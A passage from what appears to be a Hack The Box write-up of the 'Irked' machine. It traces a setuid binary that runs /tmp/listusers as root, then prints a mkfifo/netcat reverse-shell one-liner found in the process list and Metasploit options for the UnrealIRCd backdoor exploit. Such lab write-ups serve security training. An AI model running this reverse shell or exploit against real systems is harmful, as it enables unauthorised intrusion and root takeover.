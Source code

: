 To get a definitive look, I’ll remove `/tmp/listusers` and run it with `ltrace`:

```

root@term:~/hackthebox/irked-10.10.10.117# ltrace ./viewuser 
__libc_start_main(0x5655c57d, 1, 0xff983a54, 0x5655c600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                   = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                   = 37
system("who"root     :1           2018-11-20 09:21 (:1)
root     pts/3        2018-11-20 13:02 (tmux(2029).%9)
root     pts/7        2018-11-20 10:32 (tmux(2029).%4)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 0
setuid(0)                                                                                     = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 32512
+++ exited (status 0) +++

```

There I see the call to `system("who")` and then `system("/tmp/listeners")`.

## Beyond Root

### Metasploit & Process List Payloads

While I was on the box, I saw myself in the process list:

```

ircd      3670  0.0  0.0   2276   596 ?        S    08:33   0:00 sh -c AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f

```

I got curious as to what the payload from metasploit might look like. I fired up metasploit and got ready to run the exploit:

```

msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
   RPORT   6697             yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```
